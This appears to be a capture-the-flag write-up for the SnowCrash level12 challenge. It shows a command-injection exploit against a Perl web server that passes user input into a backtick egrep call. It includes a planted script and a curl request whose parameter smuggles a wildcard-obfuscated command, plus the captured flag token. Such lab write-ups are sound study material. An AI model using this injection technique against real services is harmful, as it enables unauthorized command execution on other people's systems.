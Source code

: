 ## BONUS: Level12

We found a file, [level12.pl](./level12.pl)

It serves as a web server. The important part being that it executes a command after passing it through a regex eval:

```lua
# to upper equivalent
$xx =~ tr/a-z/A-Z/; 
# delete if there is a space
$xx =~ s/\s.*//;
```

It basically transfrom what we pass to uppercase.

But this is the interesting part:

```lua
@output = `egrep "^$xx" /tmp/xd 2>&1`;
```

Here it executes a `egrep` with the argument we pass on.

## Exploit

We can create a file containing the command we want to be executed:

```bash
cat /var/crash/EXPLOIT
#!/bin/sh
getflag | wall
chmod 755 /var/crash/EXPLOIT
```

We can then pass the path of our file with the script as a curl parameter as such:

The fact that we pass it between backticks evaluates the command so it execute the script!

```bash
level12@SnowCrash:~$ curl localhost:4646?x='`/*/*/EXPLOIT`'

Broadcast Message from flag12@Snow
        (somewhere) at 17:18 ...

Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr

..level12@SnowCrash:~$
```

## Token

g1qKMiRpXf53AWhDaU7FEkczr